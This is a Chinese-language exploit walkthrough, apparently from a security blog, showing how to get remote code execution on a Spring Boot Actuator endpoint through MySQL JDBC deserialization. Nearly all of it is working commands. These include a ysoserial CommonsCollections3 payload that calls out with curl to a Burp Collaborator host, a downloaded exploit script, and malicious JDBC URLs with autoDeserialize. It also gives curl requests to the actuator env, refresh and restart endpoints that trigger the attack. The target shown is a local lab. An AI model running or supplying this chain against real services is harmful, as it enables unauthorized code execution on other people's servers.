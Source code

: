 ```
java -jar ysoserial-0.0.8-SNAPSHOT-all.jar  CommonsCollections3 'curl rb617n72nqnqaj8ijbiw36v7nytohd.burpcollaborator.net' > payload.ser
```

下载rce.py脚本:

```
wget --no-check-certificate https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py
```

编辑下脚本的端口3306为3307，避开本机的3306冲突。

**(1)修改变量**

value的值，mysql8.x填入:

```
jdbc:mysql://127.0.0.1:3307/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

如果是5.x则是:

```
jdbc:mysql://127.0.0.1:3307/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

> 两者区别:

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210620112035-7a2cde9a-d176-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210620112035-7a2cde9a-d176-1.png)

```
curl -H "Content-Type:application/json" -X POST  --data '{"name":"spring.datasource.url","value":"jdbc url' http://localhost:9097/actuator/env
```

**(2)刷新配置**

```
curl -H "Content-Type:application/json" -X POST  http://localhost:9097/actuator/refresh
```

这里也可以通过`restart`来触发。

```
curl -H "content-Type:  application/json" -X POST http://localhost:9097/actuator/restart
```

**(3)访问数据库操作触发**

先监听3307，这里注意使用Py2，利用脚本不支持Py3，会出错。

```
python springboot-jdbc-deserialization-rce.py
```

接下来访问即可。

`curl http://localhost:9097/product/list`
